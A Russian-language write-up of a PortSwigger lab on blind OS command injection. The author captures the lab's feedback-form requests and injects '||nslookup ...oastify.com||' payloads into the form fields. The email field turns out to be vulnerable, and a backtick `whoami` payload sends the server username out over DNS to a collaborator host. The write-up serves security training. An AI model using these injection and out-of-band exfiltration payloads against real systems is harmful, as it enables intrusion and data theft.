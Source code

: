 ```yaml
---
title: "Blind OS command injection with out-of-band data exfiltration"
date: 2025-06-27
tags: [injection, writeup, web]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration"
classes: wide
---
```


В лабе содержится уязвимость **Blind OS command injection**. Для решения необходимо отправить `DNS` запрос с сервера вместе именем пользователя.

```
https://0aae003e031cb93880ae5d9d008100bc.web-security-academy.net/
```

## Solution

Сразу перейду в форму обратной связи. Соберу запрос:

```http
POST /feedback/submit HTTP/2
Host: 0aae003e031cb93880ae5d9d008100bc.web-security-academy.net
Cookie: session=OSjLp57PhGSMTSemnKy4JtXDeog1gR8u
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:139.0) Gecko/20100101 Firefox/139.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aae003e031cb93880ae5d9d008100bc.web-security-academy.net/feedback
Content-Type: application/x-www-form-urlencoded
Content-Length: 101
Origin: https://0aae003e031cb93880ae5d9d008100bc.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

csrf=1g17hIQQqURqEiesGEX4tbFKF9PrfsjW&name=name&email=mail%40mail.com&subject=subject&message=message
```

Из задачи ясно, что нужно отправлять `DNS` запросы. Поэтому буду использовать `nslookup q1seln9s2o9zzv3pfboqrt8wdnjf75vu.oastify.com`. Мне в голову пришла идея, что я могу подставить разные поддомены для полей и посмотреть, что из них сработает:

```http
POST /feedback/submit HTTP/2
Host: 0aae003e031cb93880ae5d9d008100bc.web-security-academy.net
Cookie: session=OSjLp57PhGSMTSemnKy4JtXDeog1gR8u
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:139.0) Gecko/20100101 Firefox/139.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aae003e031cb93880ae5d9d008100bc.web-security-academy.net/feedback
Content-Type: application/x-www-form-urlencoded
Content-Length: 355
Origin: https://0aae003e031cb93880ae5d9d008100bc.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

csrf=1g17hIQQqURqEiesGEX4tbFKF9PrfsjW&name=name||nslookup name.q1seln9s2o9zzv3pfboqrt8wdnjf75vu.oastify.com||&email=mail%40mail.com||nslookup mail.q1seln9s2o9zzv3pfboqrt8wdnjf75vu.oastify.com||&subject=subject||nslookup subject.q1seln9s2o9zzv3pfboqrt8wdnjf75vu.oastify.com||&message=message||nslookup message.q1seln9s2o9zzv3pfboqrt8wdnjf75vu.oastify.com||
```

Получил ошибку:

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 33

"Name must be length 64 or less."
```

Вероятно поле `name` мне не подходит, уберу из него пейлоада:

```http
POST /feedback/submit HTTP/2
Host: 0aae003e031cb93880ae5d9d008100bc.web-security-academy.net
Cookie: session=OSjLp57PhGSMTSemnKy4JtXDeog1gR8u
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:139.0) Gecko/20100101 Firefox/139.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aae003e031cb93880ae5d9d008100bc.web-security-academy.net/feedback
Content-Type: application/x-www-form-urlencoded
Content-Length: 293
Origin: https://0aae003e031cb93880ae5d9d008100bc.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

csrf=1g17hIQQqURqEiesGEX4tbFKF9PrfsjW&name=name&email=mail%40mail.com||nslookup mail.q1seln9s2o9zzv3pfboqrt8wdnjf75vu.oastify.com||&subject=subject||nslookup subject.q1seln9s2o9zzv3pfboqrt8wdnjf75vu.oastify.com||&message=message||nslookup message.q1seln9s2o9zzv3pfboqrt8wdnjf75vu.oastify.com||
```

Получил следующие запросы:

![IMG](/assets/images/IMG_os_command_injection/IMG_Blind_OS_command_injection_with_out-of-band_data_exfiltration/1.png){: height="200" .align-center}

Они пришли на поддомен `mail`, значит именно это поле является уязвимым. Попробую выполнить нужную команду `whoami` с помощью следующего пейлоада:

```
||nslookup `whoami`.q1seln9s2o9zzv3pfboqrt8wdnjf75vu.oastify.com||
```

```http
POST /feedback/submit HTTP/2
Host: 0aae003e031cb93880ae5d9d008100bc.web-security-academy.net
Cookie: session=OSjLp57PhGSMTSemnKy4JtXDeog1gR8u
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:139.0) Gecko/20100101 Firefox/139.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aae003e031cb93880ae5d9d008100bc.web-security-academy.net/feedback
Content-Type: application/x-www-form-urlencoded
Content-Length: 167
Origin: https://0aae003e031cb93880ae5d9d008100bc.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

csrf=1g17hIQQqURqEiesGEX4tbFKF9PrfsjW&name=name&email=mail%40mail.com||nslookup `whoami`.q1seln9s2o9zzv3pfboqrt8wdnjf75vu.oastify.com||&subject=subject&message=message
```

![IMG](/assets/images/IMG_os_command_injection/IMG_Blind_OS_command_injection_with_out-of-band_data_exfiltration/2.png){: height="200" .align-center}

А вот и имя пользователя:

```
peter-fjORpg
```

Попробую сдать его:

![IMG](/assets/images/IMG_os_command_injection/IMG_Blind_OS_command_injection_with_out-of-band_data_exfiltration/3.png){: height="200" .align-center}

Лаба решена)
